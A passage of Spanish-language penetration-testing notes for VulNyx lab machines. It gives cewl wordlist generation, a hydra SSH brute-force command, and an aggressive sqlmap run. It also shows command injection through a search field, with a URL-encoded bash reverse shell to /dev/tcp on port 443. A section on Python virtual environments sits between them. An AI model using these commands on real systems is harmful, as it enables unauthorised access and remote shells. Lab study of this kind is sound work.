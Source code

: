 este comando genera una diccionario tomando palabras de la web y lo guarda como pass.txt

cewl http://tech.unique.nyx/ --with-numbers -w pass.txt

para el ataque utilizamos hydra y los nombres de usuarios son los nombres que aparecen en la web

hydra -L usernames.txt -P pass.txt ssh://192.168.42.141 -t 64 -I


si tenemos un formulario de inicio de sesión

También podemos interceptar con burpsuite y probar con SQLMAP y derrepente podemos ver que es vulnerable a SQLijection, solo apuntando al parámetro username.

sqlmap -r shop -p username --level 3 --risk 3 --batch

-------------------------------------------------------------------------------

## 67.- Crear entornos virtuales

python3 -m venv nombre_entorno

Activar el entorno virtual

source nombre_entorno/bin/activate

Salir del Entorno Virtual

deactivate

Eliminar el Entorno Virtual

rm -rf nombre_entorno

Verificar si se eliminó

source nombre_entorno/bin/activate

Si te dice "No such file or directory", entonces ya está eliminado correctamente.

-------------------------------------------------------------------------------

## 68.- Si tengo un input de búsqueda entonces también puedo injectar código con ";" seguido de id o otros comandos.

Ejemplo máquina hackingstation de vulnyx

vamos probando algo así

hola;id
hola && 
;id

Lo encodeamos en burpsuite

URLENCODE: bash -c 'bash -i >& /dev/tcp/IP-KALI/443 0>&1'

entonces en la url colocamos:

http://192.168.42.149/exploitQuery.php?product=hola%3BURLENCODE

-------------------------------------------------------------------------------
